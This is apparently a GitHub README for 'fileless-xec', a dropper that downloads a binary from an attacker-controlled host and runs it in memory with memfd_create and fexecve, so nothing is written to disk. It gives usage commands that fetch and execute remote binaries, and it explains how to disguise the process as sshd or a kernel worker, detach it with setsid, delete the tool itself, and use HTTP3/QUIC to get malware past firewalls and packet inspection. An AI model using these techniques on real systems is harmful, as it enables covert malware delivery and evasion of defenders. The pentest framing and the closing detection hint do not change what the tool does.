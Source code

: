 <h1 align=center> fileless-xec 🦜</h1>

<div align="center">
<code>👋 Certainly useful , mainly for fun, rougly inspired by 0x00 <a href="https://0x00sec.org/t/super-stealthy-droppers/3715">article</a></code>
</div>
<br>

***Pentest use:*** `fileless-xec` is used on target machine to stealthy execute a binary file located on attacker machine

*Previously curlNExec, refactor on going*

## Short story

`fileless-xec` enable us to execute a remote binary on a local machine in one step without dropping them on disk

 - simple usage `fileless-xec <binary_url>` (~`curl | sh` for binaries)
 - execute binary with specified program name: `fileless-xec -n /usr/sbin/sshd <binary_raw_url>`
 - detach program execution from `tty`: ` setsid fileless-xec [...]` 

![demo](https://github.com/ariary/fileless-xec/blob/main/img/curlNexec.gif)

<details>
  <summary><b>Explanation</b></summary>
We want to execute <code>writeNsleep</code> binary locate on a remote machine, locally. 

We first start a python http server on remote.
Locally we use <code>fileless-xec</code> and impersonate the <code>/usr/sbin/sshd</code> name for the execution of the binary <code>writeNsleep</code>(for stealthiness & fun)

</details>

### Other use cases

* Execute binary with stdout/stdin
* Execute binary with arguments
* `fileless-xec` self remove
* "Remote go": execute go binaries without having go installed locally
* Bypass firewall with HTTP3
* Execute a shell script
* `fileless-xec` server mode
* `fileless-xec` on windows


## Stealthiness story

* The binary file is not mapped into the host file system
* The execution program name could be customizable
* Bypass 3rd generation firewall could be done with http3 support
* `fileless-xec` self removes once launched

### memfd_create
The remote binary file is stored locally using `memfd_create` syscall, which store it within a _memory disk_ which is not mapped into the file system (*ie* you can't find it using `ls`).

### fexecve
Then we execute it using `fexecve` syscall (as it is currently not provided by `syscall` golang library we implem it). 

> With `fexecve` , we could but we reference the program to run using a
> file descriptor, instead of the full path.

### HTTP3/QUIC
<table><tr><td>
Enable it with <code>-Q</code>/<code>http3</code>  flag. <br>
You can setup a light web rootfs server supporting http3 by running <code>go run ./test/http3/light-server.go -p LISTENING PORT</code> (This is http3 equivalent of <code>python3 -m http.server <listening_port></code>)<br>
use <code>test/http3/genkey.sh</code> to generate cert and key.

 
 </td></tr></table>
 
`QUIC` UDP aka `http3` is a new generation Internet protocol that speeds online web applications that are susceptible to delay, such as searching, video streaming etc., by reducing the round-trip time (RTT) needed to connect to a server.

Because QUIC uses proprietary encryption equivalent to TLS (this will change in the future with a standardized version), **3rd generation firewalls that provide application control and visibility encounter difficulties to control and monitor QUIC traffic**.

If you actually use `fileless-xec` as a dropper (***Only for testing purpose or with the authorization***), you likely want to execute some type of malwares or other file that could be drop by packet analysis. Hence, with Quic enables you could **bypass packet analysis and GET a malware**.

Also, in case firewall is only used for allowing/blocking traffic it could happen that **firewall rules forget the udp protocol making your requests go under the radars**

### other skill for stealthiness

Although not present on the memory disk, the running program can still be detected using `ps` command for example. 

 1. Cover the tracks with a fake program name
 
`fileless-xec --name <fake_name> <binary_raw_url>` by default the name is `[kworker/u:0]` 

 2. Detach from tty to map behaviour of deamon process
 
`setsid fileless-xec <binary_raw_url>`. *WIP call `setsid` from code*

### Caveats
You could still be detected with:
```
$ lsof | grep memfd
```
